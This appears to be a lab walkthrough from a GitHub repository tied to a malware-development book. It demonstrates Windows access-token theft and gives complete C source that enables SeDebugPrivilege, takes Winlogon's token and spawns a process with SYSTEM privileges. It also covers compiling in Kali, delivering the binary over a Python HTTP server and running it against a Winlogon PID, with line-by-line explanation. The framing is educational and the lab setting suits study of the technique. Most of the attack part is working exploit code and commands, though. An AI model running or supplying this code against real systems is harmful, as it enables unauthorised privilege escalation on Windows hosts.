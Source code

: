 # Compile the code in Kali
```
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```
![](./screenshots/01.png) <br>
![](./screenshots/02.png) <br>

### Deliver the executable to Windows VM
```
python3 -m http.server 8000
```
You can use `ip a` to check your Kali IP. <br>
# Execute in Windows 10
- [Process Explorer](https://learn.microsoft.com/en-us/sysinternals/downloads/process-explorer)

![](./screenshots/03.png) <br>
![](./screenshots/04.png) <br>
![](./screenshots/05.png) <br>

As a local Administrator, you can... <br>
![](./screenshots/06.png) <br>
![](./screenshots/07.png) <br>
![](./screenshots/08.png) <br>


```powershell
Get-Process Winlogon 

```
![](./screenshots/09.png) <br>


```powershell
.\hack.exe 580 
```
![](./screenshots/10.png) <br>

---

# Explain the code
This code is a demonstration of **token theft**, where an access token from another process is stolen and used to create a new process with elevated privileges. The key steps include enabling necessary privileges, obtaining a token from a target process, and using that token to create a new process. This is a concept relevant to both ethical hacking and cybersecurity, where understanding such tactics is crucial for defending systems against malicious actors.

### Let's get started.
```c
#include <windows.h>
#include <stdio.h>
#include <iostream>
```
- **windows.h**: This is the primary header for `Windows API`, which provides functions for creating processes, managing privileges, handling access tokens, etc. <br>

```c
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;

  CloseHandle(token);
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}

```
- **Purpose:** This function attempts to enable a specified privilege (like `SE_DEBUG_NAME`) in the current process.
- **LookupPrivilegeValue(NULL, priv, &luid):** Retrieves the `locally unique identifier (LUID`) for the privilege priv.
- **OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token):** Opens the access token associated with the current process, enabling it to adjust privileges.
- **AdjustTokenPrivileges:** Modifies the privileges in the access token to enable the specified privilege.
- **CloseHandle(token):** Closes the token handle after use.
Output: If successful, the function prints "successfully enable [priv]" to the console, otherwise "failed to enable [priv]".

```c
// get access token
HANDLE getToken(DWORD pid) {
  HANDLE cToken = NULL;
  HANDLE ph = NULL;
  if (pid == 0) {
    ph = GetCurrentProcess();
  } else {
    ph = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, true, pid);
  }
  if (!ph) cToken = (HANDLE)NULL;
  printf(ph ? "successfully get process handle :)\n" : "failed to get process handle :(\n");
  BOOL res = OpenProcessToken(ph, MAXIMUM_ALLOWED, &cToken);
  if (!res) cToken = (HANDLE)NULL;
  printf((cToken != (HANDLE)NULL) ? "successfully get access token :)\n" : "failed to get access token :(\n");
  return cToken;
}
```
- **Purpose:** This function obtains the access token from a process identified by its `process ID (pid)`.
- **OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, true, pid):** Opens the process with limited query access, which is sufficient to get the process token.
- **OpenProcessToken(ph, MAXIMUM_ALLOWED, &cToken):** Retrieves the access token for the opened process.
- **Output:** Success or failure messages are printed to indicate whether the process handle and access token were successfully obtained.

```c
// create process
BOOL createProcess(HANDLE token, LPCWSTR app) {
  HANDLE dToken = NULL;
  STARTUPINFOW si;
  PROCESS_INFORMATION pi;
  BOOL res = TRUE;
  ZeroMemory(&si, sizeof(STARTUPINFOW));
  ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
  si.cb = sizeof(STARTUPINFOW);

  res = DuplicateTokenEx(token, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TokenPrimary, &dToken);
  printf(res ? "successfully duplicate process token :)\n" : "failed to duplicate process token :(\n");
  res = CreateProcessWithTokenW(dToken, LOGON_WITH_PROFILE, app, NULL, 0, NULL, NULL, &si, &pi);
  printf(res ? "successfully create process :)\n" : "failed to create process :(\n");
  return res;
}
```

- **Purpose:** This function creates a new process using the stolen token.
DuplicateTokenEx(token, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, - TokenPrimary, &dToken): Creates a duplicate of the token with the same permissions, but suitable for creating a new process.
- **CreateProcessWithTokenW(dToken, LOGON_WITH_PROFILE, app, NULL, 0, NULL, NULL, &si, &pi):** Creates a new process (app, which in this case is "`C:\\Windows\\System32\\mspaint.exe`") using the duplicated token.
- **Output:** Success or failure messages are printed to indicate whether the token was successfully duplicated and whether the new process was created.

```c
int main(int argc, char** argv) {
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  DWORD pid = atoi(argv[1]);
  HANDLE cToken = getToken(pid);
  if (!createProcess(cToken, L"C:\\Windows\\System32\\mspaint.exe")) return -1;
  return 0;
}
```
- **Privilege Escalation:** The code first tries to enable `SE_DEBUG_NAME`, a powerful privilege that allows a process to inspect and manipulate other processes.
- **Token Theft:** The `process ID (PID)` of the target process is obtained from the command-line argument (`argv[1]`). The getToken function is used to obtain the token from this process.
- **Process Creation:** If the token is successfully obtained, a new process (`mspaint.exe`) is created with the stolen token's privileges.
- **Error Handling:** If any of the steps fail, the program returns `-1` to indicate an error.






---
# References
- Book - [Malware Development for Ethical Hackers: Learn how to develop various types of malware to strengthen cybersecurity](https://www.packtpub.com/en-us/product/malware-development-for-ethical-hackers-9781801810173) By
Zhassulan Zhussupov, 2024
- [Source code - hack.c](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers/blob/main/chapter04/01-token-theft/hack.c)